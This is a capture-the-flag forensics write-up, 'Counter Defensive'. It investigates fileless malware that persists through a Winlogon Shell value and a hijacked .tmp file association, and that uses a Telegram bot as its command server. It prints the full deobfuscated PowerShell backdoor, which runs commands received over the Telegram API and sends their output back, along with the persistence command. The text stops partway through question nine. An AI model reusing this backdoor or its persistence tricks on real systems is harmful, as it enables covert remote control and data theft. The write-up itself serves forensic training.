 <font size='10'>Counter Defensive</font>

30<sup>th</sup> April 2024

Prepared By: bquanman & thewildspirit

Challenge Author(s): bquanman

Difficulty: <font color=red>Hard</font>

Classification: Official

# Synopsis

A hard forensics challenge that involves investigating the persistent mechanism of fileless malware that focuses on manipulating file extension, and retrieving exfiltrated information from the Telegram account that the attacker used as a Command & Control server.

## Description

* As your crew prepares to infiltrate the vault, a critical discovery is made: an opposing faction has embedded malware within a workstation in your infrastructure, targeting invaluable strategic plans. Your task is to dissect the compromised system, trace the malware's operational blueprint, and uncover the method of these remote attacks. Reveal how the enemy monitors and controls their malicious software. Understanding their tactics is key to securing your plans and ensuring the success of your mission to the vault. To get the flag, spawn the docker instance and answer the questions!

## Skills Required

* Registry analyst knowledge
* Javascript knowledge
* Powershell knowledge

## Skills Learned

* Javascript deobfuscation
* Powershell deobfuscation
* Using Telegram Bot API
* File extension forensics

# Enumeration

For this challenge, players are given the Users folder of the compromised workstation.




### [1/10] What time did the victim finish downloading the Black-Myth-Wukong64bit.exe file?

Since we know that the victim downloaded the file, probably a browser was used. To answer this question, we need to find the browser's download history. As we can see in the `AppData\Local` folder, Brave browser is installed. So by looking at this file `IEUser\AppData\Local\BraveSoftware\Brave-Browser\User Data\Default` we can get the download history.


We have to submit our answer using the epoch timestamp, so we will use an online converter.


* Answer: `1713451126`

### [2/10] What is the full malicious command which is run whenever the user logs in?
Since we know there is a command running every time the user logs in, we need to analyze the `ntuser.dat` file. It is a registry file that contains user-specific configuration information and settings.

Many registry keys are often used by malware to establish persistence. Some of the most well known, regarding the current user, according to this [article](https://kamransaifullah.medium.com/registry-run-keys-startup-folder-malware-persistence-7ae3cf160680), are:

1. HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
2. HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
3. HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
4. HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Winlogon

There was indeed a malicious command in our 4th option.



As described in the aforementioned article, the `Shell` contains the default value of explorer.exe. This can also be taken advantage of and attackers can set it to malware executables.

* Answer: `%PWS% -nop -w h "start "$env:temp\wct98BG.tmp""`

### [3/10] Referring to the previous file, 'wct98BG.tmp', what is the first process that starts when the malicious file is opened?

The file `wct98BG.tmp` contains only junk data. The crucial aspect is its extension as it is not a default extension recognized by Windows. To investigate it further, we need to analyze the hive file `UsrClass.dat`, which is located at `Users\IEUser\AppData\Local\Microsoft\Windows`. : The `UsrClass.dat` file corresponds to the `HKEY_CLASSES_ROOT (HKCR)` hive in the Windows registry when viewed within the context of the user-specific settings. It deals with file type associations and other COM-related settings for individual users.



By creating the key `HKCU\SOFTWARE\CLASSES\.tmp`, the malware registers the extension and configures its handler as `AppXoiy6rzzu62tdihr9rgvofad4hz7tpf4m`. This technique is described as `Event Triggered Execution: Change Default File Association` and is mentioned in the MITRE framework, with ID [T1546.001](https://attack.mitre.org/techniques/T1546/001/).

The handler contains JavaScript code at `HKCU\SOFTWARE\CLASSES\90e0\shell\open\command` as depicted below:



It uses `mshta.exe` to execute the next stage.

* Asnwer: `mshta.exe`

### [4/10] What is the value of the variable named cRkDgAkkUElXsDMMNfwvB3 that you get after decoding the first payload?

The obfuscated malicious script used by the malware can be seen below:


To further understand its logic, we need to deobfuscate the script.

The script does the following:
1. Reads the content of the `HKCU\software\Classes\Directory\DisplayName` key
2. Reverses the string
3. Hex decodes it.

Let's retrieve the payload.



We will decode the payload sing [Cyberchef](https://gchq.github.io).


Now, using an online beautifier we will beautify the obfuscated script.


The value of the variable named `cRkDgAkkUElXsDMMNfwvB3` can easily be found in the script.

* Asnwer: `CbO8GOb9qJiK3txOD4I31x553g`

### [5/10] What algorithm/encryption scheme is used in the final payload?

Let's deobfuscate the js script.


The actions implemented by the script are:
* Using the first for loop, the malware hex decodes the `hex_string`
* Reads the value of the `HKCU\\software\\Classes\\Directory\\DisplayName` key
* Uses the aforementioned value to `XOR` the decoded hex string.

Let's read the XOR key from the registry key mentioned above:
 
The XOR key is: `a2jDtG5nIGPDsyDEkcOidSBi4bqhbiDGoWkgaMOqaMOqaMOq`. Using Cyberchef once again, we will decode the next stage of the payload.



To better understand its logic we will deobfuscate and beautify the PowerShell script. 

```powershell
[System.Net.ServicePointManager]::SecurityProtocol=@("Tls12","Tls11","Tls","Ssl3")
$a1=gp "HKCU:\\Environment"
function h1($j0) {
    $v4 = [System.Security.Cryptography.HashAlgorithm]::Create('md5')
    $x3 = $v4.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($j0))
    $n6 = [System.BitConverter]::ToString($x3)
    return $n6.Replace('-', '')
}
$j2=$a1.Update
$F2=$a1.guid
$g1=$a1.bid
$y3=$a1.tid
$j5=$a1.hid
function s9($n1, $x8) {
    $k7 = gi $n1
    foreach($b5 in $k7.Property){ 
        $u6 = $k7.Name + ";" + $b5
        $x3 = h1 $u6
        if($x8 -eq $x3){
            return ((gp $n1 -Name $b5).$b5)
        }
    }
    foreach($n2 in $k7.GetSubkeyNames()){
        $v8 = s9 ($n1 + "\" + $n2) $x8
        if($v8.Length -gt 0){
            return $v8
        }
    }
    return ""
}
$m0 = s9 "HKCU:\software\classes\Interface" "6ca24d7c7f6f6465afb82dacd1b0c71f"
function n9 {
    param (
        [byte[]]$n3
    )
    $c4 = New-Object System.IO.MemoryStream($n3, 0, $n3.Length)
    $c5 = New-Object Byte[](32)
    $x2 = $c4.Read($c5, 0, $c5.Length)
    if ($x2 -ne $c5.Length) {
        exit
    }
    $b5 = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($m0, $c5)
    $b7  = $b5.GetBytes(32)
    $v9   = $b5.GetBytes(16)
    $h5 = New-Object Security.Cryptography.AesManaged
    $e3 = $h5.CreateDecryptor($b7, $v9)
    $w5 = New-Object IO.MemoryStream
    $q7 = New-Object System.Security.Cryptography.CryptoStream(
        $c4, $e3, [System.Security.Cryptography.CryptoStreamMode]::Read)
    $q7.CopyTo($w5)
    $w5.Position = 0
    $y5 = New-Object IO.StreamReader($w5)
    $u9 = $y5.ReadToEnd()
    $y5.Dispose()
    $q7.Dispose()
    $w5.Dispose()
    $c4.Dispose()
    return $u9
}
$j51 = n9 $j5
$y31 = n9 $y3
$g11 = n9 $g1
$i0 = "$g11`:$y31"
$g2=irm "https://ifconfig.me/ip"
if( -not (New-Object System.Threading.Mutex($false, $F2)).WaitOne(1)){
    exit
}
if($j2 -and $F2){
    irm -Uri "https://api.telegram.org/bot$($i0)/sendMessage?chat_id=$($j51)&text=$F2 ;; $env:COMPUTERNAME reconnected!"
}
else {
    $F2 = [guid]::NewGuid().guid
    Set-ItemProperty "HKCU:\\Environment" -name "GUID" -value $F2
    irm -Uri "https://api.telegram.org/bot$($i0)/sendMessage?chat_id=$($j51)&text=$F2 ;; $env:COMPUTERNAME new connection!"
}
if($j2 -isnot [int]){
    $j2 = 0
}
while(1){
    (irm -Uri "https://api.telegram.org/bot$($i0)/getUpdates").result|%{
        if ($j2 -lt $_.update_id) {
            $j2=$_.update_id;
            $u6,$r4=$_.message.text -split ";;";
            if ( ($u6 -like $g2) -or ($u6 -like $env:COMPUTERNAME) -or ($u6 -like $F2) -or ($u6 -like "all")) {
                $r0 = $($r4 | iex)2>&1 | Out-String;
                if ("" -eq $r0){
                    $r0="Task Done!!"
                }
                $u8=0;
                while ($u8 -lt $r0.Length) {
                    $r1 = 3999;
                    if (($r1 + $u8) -gt $r0.Length){$r1=$r0.Length % 3999}
                    irm -Uri "https://api.telegram.org/bot$($i0)/sendMessage?chat_id=$($j51)&text=$F2 : $($_.message.message_id)`n$($r0.Substring($u8,$r1))"
                    $u8+=$r1
                }
            }
        }
        Set-ItemProperty "HKCU:\\Environment" -name "Update" -value $j2
    }
}
```
As we can see from this line of code `$h5 = New-Object Security.Cryptography.AesManaged`, the malware uses `AES` in the final payload.

* Answer: `AES`

### [6/10] What is the full path of the key containing the password to derive the encryption key?

Before answering this question, let's analyze the script.
* Function `h1`: This function takes a string input and returns its MD5 hash in hexadecimal format without dashes
* Function `s9`: This function searches the registry recursively for a value whose name, hashed, matches a given hash. If a match is found, it returns the property value.
* Function `n9`: Reads the content of the previously found registry key to derive the key and IV. Then using `AES` it decrypts the given string.
* Rest of the code: Reads the content of some environment variables, which are the encrypted telegram bot token and chat ID. Then uses both to communicate with the Telegram command & control server.

To find the string to derive the key pair, we will write a Python script that operates exactly like the attacker's PowerShell script.



The password is stored in `HKEY_CURRENT_USER\software\classes\Interface\{a7126d4c-f492-4eb9-8a2a-f673dbdd3334}\TypeLib;(default)`.
The value data of that key is `{BAE13F6C-0E2A-4DEB-AA46-B8F55319347C}`. 

* Asnwer: `HKEY_CURRENT_USER\software\classes\Interface\{a7126d4c-f492-4eb9-8a2a-f673dbdd3334}\TypeLib`

### [7/10] What is the attacker's Telegram username?

To retrieve more information from Telegram, we need the bot token and the chat ID used by the attacker. To find them, we need to find the environmental variables that the attacker reads from in the PowerShell script:
```ps1
$a1=gp "HKCU:\\Environment"
...[SNIP]...
$j2=$a1.Update
$F2=$a1.guid
$g1=$a1.bid
$y3=$a1.tid
$j5=$a1.hid
...[SNIP]...
$j51 = n9 $j5
$y31 = n9 $y3
$g11 = n9 $g1
```
The variables can be found in the `NTUSER.dat` file once again.


Then, we will use Python to replicate the `n9` function.



From the decrypted values we now have:

```
Bot token: 7035...[REDACTED]...doiaoaGBMcy4
telegram id: 69...[REDACTED]...141
```
Since we have all the necessary information, we will read the attacker's channel history. For this, since the attacker has blocked the bot, we will use the [forwardMessage](https://core.telegram.org/bots/api#forwardMessages) method to forward all the messages to our telegram account. But to do this, we first need to start chatting with the bot.

Using the `getme` API to get bot information: `https://api.telegram.org/bot7035...[REDACTED]...doiaoaGBMcy4/getme`



We can send messages to the bot now.



Let's start forwarding messages to our chat.
```
https://api.telegram.org/bot7035...[REDACTED]...doiaoaGBMcy4/forwardMessages?from_chat_id=69...[REDACTED]...141&message_ids=[1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25]&chat_id=xxxxxxxxxx
```
In this request, we used: 
* `7035...[REDACTED]...doiaoaGBMcy4/` is bot token
* `69...[REDACTED]...141` is the attacker's ID to forward messages from (source id)
* `xxxxxxxxxx` is the personal account ID to forward to
* `[1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25]` are the IDs of the first 25  messages, we will try forwarding them first

Once we send the request, the messages will be successfully forwarded to us. 

So, to find the attacker's username we will go to their profile.



* Answer: `Pirate_D_Mylan`

### [8/10] What day did the attacker's server first send a 'new-connection' message?

To answer this question we will hover our mouse over the first `new-connection` message as can be seen in the previous screenshot.

* Answer: `18/04/2024`

### [9/10] What's the password for the 7z archive?

To find the password we first need to locate the attacker's malicious command.


Using Cyberchef, we will base64 decode and decompress the script.



The result we get is the following:
